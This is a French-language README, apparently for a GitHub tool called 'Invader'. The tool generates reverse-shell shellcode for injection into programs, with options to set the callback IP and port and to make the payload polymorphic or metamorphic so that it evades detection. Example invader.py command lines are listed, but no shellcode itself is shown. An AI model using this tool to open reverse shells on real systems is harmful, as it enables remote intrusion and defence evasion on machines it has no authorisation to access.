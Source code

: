 # Invader
         ____  ____   __ __   ____  ___      ___  ____  
        |    ||    \ |  |  | /    ||   \    /  _]|    \ 
         |  | |  _  ||  |  ||  o  ||    \  /  [_ |  D  )
         |  | |  |  ||  |  ||     ||  D  ||    _]|    / 
         |  | |  |  ||  :  ||  _  ||     ||   [_ |    \ 
         |  | |  |  | \   / |  |  ||     ||     ||  .  \\
        |____||__|__|  \_/  |__|__||_____||_____||__|\_|

Création automatique d'un reverse shell (via shellcode) à injecter dans un programme (exemple C directement disponible dans le git).
Il y a la possibilité de changer l'ip et le port du reverse shell et de rendre le shell métamorphique et/ou polymorphique.

<---------------------------------------- EXEMPLES ---------------------------------------->
Exemple : python ./final/py/invader.py -s ./final/asm/fnl_reverse_shell.asm                                     # Retourne le shellcode
Exemple : python ./final/py/invader.py -c ./final/c/fnl_reverse_shell.c                                         # Compile et lance le programme c
Exemple : python ./final/py/invader.py -c -s ./final/asm/fnl_reverse_shell.asm                                  # Compile et lance le programme avec le shellcode du fichier asm 
Exemple : python ./final/py/invader.py -p 4444 -s ./asm/fnl_reverse_shell.asm                                   # Retourne le shellcode du fichier en changeant le port
Exemple : python ./final/py/invader.py -i 127.0.0.1 -s ./final/asm/fnl_reverse_shell.asm                        # Retourne le shellcode du fichier en changeant l'ip
Exemple : python ./final/py/invader.py -c -s ./final/asm/fnl_reverse_shell.asm -i 127.0.0.1 -p 4444             # Compile et lance le programme avec le shellcode du fichier.asm en changeant l'ip et le port     \\\\  )
Exemple : python ./final/py/invader.py -c -s ./final/asm/fnl_reverse_shell.asm -i 127.0.0.1 -p 4444 -v -M -P    # Compile et lance le programme avec le shellcode du fichier.asm en changeant l'ip et le port avec le polymorphisme et le metamorphisme activé   \\\\  )
<---------------------------------------- EXEMPLES ---------------------------------------->

<------------------------------------------ HELP ------------------------------------------>
-h Affiche ce message  )
-e Affiche des exemples de commandes  )
-v Active le mode verbosité  )
-vvv Active le mode haute verbosité (objdump)  )
-s Création de lu shellcode  )
-c compile un fichier.c et le lance  )
-i Changement de l'ip dans le shellCode  )
-p Changement du port dans le shellCode  )
-M Activation du metamorphisme du shellcode  )
-P Activation du polymorphisme du shellcode  )
<------------------------------------------ HELP ------------------------------------------>
